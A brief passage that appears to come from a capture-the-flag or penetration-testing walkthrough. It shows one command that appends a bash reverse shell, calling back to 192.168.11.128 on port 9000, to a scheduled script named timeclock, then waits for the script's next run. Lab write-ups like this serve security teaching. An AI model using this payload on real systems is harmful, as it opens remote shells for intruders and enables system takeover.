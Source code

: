 With the following command we add to timeclock the reverse shell payload and wait 3 minutes for the next run.&#x20;

```
echo "bash -i >& /dev/tcp/192.168.11.128/9000 0>&1" >> timeclock
```

<figure><img src="../../.gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>
